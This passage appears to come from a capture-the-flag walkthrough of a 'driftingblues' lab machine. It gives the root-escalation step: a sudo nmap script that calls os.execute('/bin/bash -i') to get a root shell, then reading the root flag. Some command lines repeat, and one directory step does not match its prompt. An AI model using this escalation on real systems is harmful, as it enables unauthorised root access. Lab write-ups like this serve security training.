



5.2 Privilege root (2nd flag)
1. From https://gtfobins.github.io/gtfobins/nmap.

Note
Instead of “bin/sh” you'll use “/bin/bash”.
2. Run those commands on your SSH connection.
freddie@driftingblues:~$TF=$(mktemp)
freddie@driftingblues:~$echo 'os.execute("/bin/bash -i")' > $TF
freddie@driftingblues:~$sudo nmap --script=$TF
freddie@driftingblues:~$reset
freddie@driftingblues:~$echo 'os.execute("/bin/bash -i")' > $TF
freddie@driftingblues:~$sudo nmap --script=$TF
freddie@driftingblues:~$reset
The “reset” command allow you to see the text in the terminal.
Output:

You are “root”.
3. Go to “root” directory and show the flag.
root@driftingblues:/home/freddie#cd root
root@driftingblues:~#ls
root@driftingblues:~#cat root.txt
root@driftingblues:~#ls
root@driftingblues:~#cat root.txt
Output:
